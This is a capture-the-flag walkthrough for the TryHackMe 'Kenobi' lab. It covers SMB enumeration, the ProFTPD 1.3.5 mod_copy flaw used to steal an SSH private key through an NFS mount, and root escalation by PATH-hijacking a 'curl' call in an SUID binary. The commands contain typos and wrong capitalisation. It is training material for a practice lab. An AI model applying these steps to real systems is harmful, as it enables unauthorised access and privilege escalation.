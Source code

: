 ```yaml
---
title: Kenobi WalkThrough
permalink: /CTF/kenobi
layout: page
tags: TryHackMe
---
```

# Anonymouos
# ![front](/images/kenobi/front.png)
[https://tryhackme.com/room/kenobi](https://tryhackme.com/room/kenobi)
<img src="/images/kenobi/img.gif" height="90px">

## Open Ports:
![PORTS](/images/kenobi/ports.png)

## Gaining Access:
1. Enumerating `SMB` using nmap script
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse ip
```
	2. Found Anonymous login in smb
	2. smbclinet //<ip>/Anonymous
1. Via ProFTPD 1.3.5
	2. Found exploitdb copy
	2. https://www.exploit-db.com/exploits/36742 (copying id_rsa to var/tmp)
1. Mounting the /var/tmp to out pc
	2. Make mount dir
	2. Mkdir /mnt/kenobi
	2. Mount ip:/var/tmp /mnt/kenobi
1. now copy the shh key from var/tmp to ur desktop
	2. Change permission
	2. Chmod  600 key
1. Connect via ssh
	```
	Ssh -i key kenobi@ip
	```

### User Flag:
![flag](/images/kenobi/flag.png)

## Priviledge Escalation:
1. Looking into SUID bit
Ø Find / -perm -u=s 2> /dev/null <br>
	○ Found menu<br>
	○ Strings menu<br>
		§ Found the no path was specified for curl command <br>
2. Now <br>
Ø Echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > curl<br>
Ø Chmod 777 curl<br>
Ø Export PATH=/tmp:$PATH<br>
Ø /usr/bin/menu and press 1<br>
Ø Bash -p<br>

### Root Flag:
![root](/images/kenobi/root.png)